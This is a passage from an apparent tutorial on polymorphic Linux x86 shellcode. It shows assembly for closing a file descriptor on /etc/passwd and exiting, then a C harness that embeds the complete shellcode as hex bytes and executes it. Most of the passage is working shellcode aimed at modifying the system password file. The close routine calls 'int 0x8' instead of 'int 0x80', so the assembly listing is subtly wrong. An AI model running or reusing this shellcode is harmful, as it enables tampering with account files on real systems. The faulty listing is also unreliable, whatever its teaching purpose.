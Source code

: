 Below is the second-to-last Assembly routine:

```nasm
CloseFileHandle:

    xor eax, eax

    ; call syscall close()
    mov al,0x6
    int 0x8
```

It closes the file descriptor of the file `/etc/passwd`, opened before by means of the syscall `open()`. As before, I've explicitly cleared the `EAX` register in order to make the shellcode more stable. The rest is the same as the original shellcode.

Finally, the last routine:

```nasm
Exit:

    ; call syscall exit() 
    inc eax
    int 0x80
```

It terminates the execution. I chose not to clear `EAX` in order to save more bytes, but since this polymorphic version is simply `115%` bigger than the original size, you can just add a `xor eax, eax` before the `inc eax`, since it required only `1 byte`.

### Testing

To test the polymorphic shellcode, I've used the following C program:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\xeb\x48\x5f\x89\xfe\x31\xc9\xf7\xe1\xb1\x0b\x81\x37\x71\x63\x63\x75\x83\xc7\x04\xe2\xf5\x89\xf7\x89\xfb\x83\xc3\x0c\x53\x5e\x57\x5b\xb0\x06\x48\xb2\x69\xc1\xc2\x02\x66\xb9\x43\x04\x49\xcd\x80\x93\x31\xc0\x50\x5a\x6a\x20\x5a\x4a\x6a\x03\x58\x40\x56\x59\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xb3\xff\xff\xff\x5e\x06\x17\x16\x5e\x13\x02\x06\x02\x14\x07\x75\x05\x0c\x0c\x07\x4b\x59\x53\x4f\x41\x59\x17\x45\x41\x11\x59\x5a\x03\x0c\x0c\x01\x4b\x4c\x01\x1c\x1f\x4c\x01\x14\x02\x0b\x69\x75";

main()
{
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

To compile:
